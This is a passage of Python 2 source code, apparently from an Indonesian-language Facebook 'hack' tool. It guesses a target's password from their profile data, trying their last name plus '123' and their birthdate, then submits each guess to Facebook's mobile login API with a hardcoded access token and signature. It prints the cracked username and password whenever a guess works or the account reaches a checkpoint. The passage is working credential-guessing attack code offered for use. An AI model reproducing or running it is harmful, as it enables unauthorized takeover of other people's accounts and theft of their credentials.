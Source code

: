                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                        raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                        menu_hack()
                    else:
                        if 'www.facebook.com' in y['error_msg']:
                            print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2
                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                            menu_hack()
                        else:
                            pz3 = a['last_name'] + '123'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            y = json.load(data)
                            if 'access_token' in y:
                                print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                menu_hack()
                            else:
                                if 'www.facebook.com' in y['error_msg']:
                                    print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                    print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3
                                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                    menu_hack()
                                else:
                                    lahir = a['birthday']
                                    pz4 = lahir.replace('/', '')
                                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                    y = json.load(data)
                                    if 'access_token' in y:
                                        print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                        raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                        menu_hack()
                                    else:
                                        if 'www.facebook.com' in y['error_msg']:
                                            print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                            menu_hack()
                                        else:
                                            print '\x1b[1;91m[!] Maaf, gagal membuka password target :('
                                            print '\x1b[1;91m[!] Cobalah dengan cara lain.'
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                            menu_hack()
        except KeyError: